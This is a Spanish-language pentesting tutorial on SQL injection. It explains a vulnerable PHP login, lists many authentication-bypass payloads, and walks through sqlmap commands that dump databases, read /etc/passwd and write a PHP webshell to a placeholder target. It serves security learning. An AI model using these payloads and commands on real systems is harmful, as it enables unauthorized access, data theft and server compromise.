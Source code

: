 ## ❓ ¿Qué es una SQL Injection?

Una **SQL Injection** es un tipo de ataque que ocurre cuando un atacante es capaz de "inyectar" código SQL malicioso en una consulta que se envía a la base de datos.

👉 En otras palabras: el atacante logra manipular las consultas a la base de datos para que hagan cosas no deseadas, como:

- obtener datos confidenciales,
- modificar o eliminar datos,
- saltarse controles de autenticación,
- ejecutar comandos administrativos en la base de datos.

## 📌 ¿Por qué ocurre?

Sucede cuando una aplicación web **no valida correctamente la entrada del usuario** antes de usarla en una consulta SQL.

## 🔍 Ejemplo sencillo

Supongamos que en una página de login tenemos este código en PHP:

```php
$username = $_POST['username'];
$password = $_POST['password'];

$query = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
```

Si el atacante, en el campo `password`, escribe:

```sql
' OR '1'='1
```

La consulta que se ejecuta es:

```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1'
```

Como `'1'='1'` siempre es verdadero, es posible que el atacante logre iniciar sesión **sin conocer la contraseña**.

## 🔍 ¿Cómo detectamos si existe esta vulnerabilidad?

Cuando vemos campos a rellenar, intentaremos inyectar código y observaremos la respuesta.  
Lo primero es intentar **escapar del contexto actual** con entradas como:

```
[Nada]
'
"
`
')
")
`)
'))
"))
`))
```

Luego corregimos la consulta.  
Podemos automatizar esta tarea con diccionarios como [SecLists](https://github.com/danielmiessler/SecLists), que incluyen muchos payloads.

### Inyecciones comunes (manuales)

```sql
" or 1=1
" or 1=1#
" or 1=1--
" or 1=1/*
' or 1=1
' or 1=1#
' or 1=1--
' or 1=1/*
admin" #
admin" --
admin" or "1"="1
admin" or "1"="1"#
admin" or "1"="1"--
admin" or "1"="1"/*
admin" or 1=1
admin" or 1=1#
admin" or 1=1--
admin" or 1=1/*
admin") or "1"="1
admin") or "1"="1"#
admin") or "1"="1"--
admin") or "1"="1"/*
admin") or ("1"="1
admin") or ("1"="1"#
admin") or ("1"="1"--
admin") or ("1"="1"/*
admin"/*
admin"or 1=1 or ""="
admin' #
admin' --
admin' or '1'='1
admin' or '1'='1'#
admin' or '1'='1'--
admin' or '1'='1'/*
admin' or 1=1
admin' or 1=1#
admin' or 1=1--
admin' or 1=1/*
admin') or '1'='1
admin') or '1'='1'#
admin') or '1'='1'--
admin') or '1'='1'/*
admin') or ('1'='1
admin') or ('1'='1'#
admin') or ('1'='1'--
admin') or ('1'='1'/*
admin'/*
admin'or 1=1 or ''='
or 1=1
or 1=1#
or 1=1--
or 1=1/*
```

## 🤖 Automatizar el ataque

Podemos automatizar el ataque con herramientas como `sqlmap`.

### 1️⃣ Buscar bases de datos

Usamos la herramienta sobre la URL para buscar las bases de datos:

```bash
sqlmap -u http://<IP> --forms --dbs --batch
```

### 2️⃣ Enumerar las tablas

Si detecta bases de datos, inspeccionamos las tablas de una base de datos específica:

```bash
sqlmap -u http://<IP> --forms -D <NOMBRE_BASE_DE_DATOS> --tables --batch
```

### 3️⃣ Enumerar las columnas

Una vez tengamos las tablas, inspeccionamos las columnas que las componen:

```bash
sqlmap -u http://<IP> --forms -D <NOMBRE_BASE_DE_DATOS> -T <NOMBRE_DE_LA_TABLA> --columns --batch
```

### 4️⃣ Extraer los datos

Cuando sepamos las columnas, le indicamos que nos muestre la información de las filas y columnas seleccionadas:

```bash
sqlmap -u http://<IP> --forms -D <NOMBRE_BASE_DE_DATOS> -T <NOMBRE_DE_LA_TABLA> -C <NOMBRE_DE_LA_COLUMNA_1>,<NOMBRE_DE_LA_COLUMNA_2> --dump --batch
```

---

## 🎯 Ataques avanzados con SQLMap

Una vez que tenemos el ataque básico automatizado, podemos realizar técnicas más avanzadas:

### 🔹 Especificar el parámetro vulnerable

Si sabemos qué parámetro es vulnerable (por ejemplo `id`):

```bash
sqlmap -u "http://<IP>/pagina.php?id=1" -p id --dbs --batch
```

### 🔹 Aumentar el nivel y riesgo del ataque

SQLMap permite personalizar la agresividad del ataque:

```bash
sqlmap -u http://<IP> --forms --dbs --risk=3 --level=5 --batch
```

- `--risk=3`: permite payloads más agresivos (por defecto es `1`).
- `--level=5`: explora más tipos de inyecciones (por defecto es `1`).

### 🔹 Usar cookies (si la aplicación requiere autenticación)

Si la aplicación requiere sesión iniciada, podemos añadir la cookie:

```bash
sqlmap -u http://<IP> --cookie="PHPSESSID=XXXXXXXXXXXXX" --dbs --batch
```

### 🔹 Obtener el usuario actual de la base de datos

```bash
sqlmap -u http://<IP> --current-user --batch
```

### 🔹 Obtener la versión del motor de base de datos

```bash
sqlmap -u http://<IP> --banner --batch
```

### 🔹 Leer archivos del sistema (si es posible)

Si la inyección es lo suficientemente potente, podemos intentar leer archivos:

```bash
sqlmap -u http://<IP> --file-read="/etc/passwd" --batch
```

### 🔹 Escribir archivos en el servidor (WebShell)

```bash
sqlmap -u http://<IP> --file-write="shell.php" --file-dest="/var/www/html/shell.php" --batch
```

---




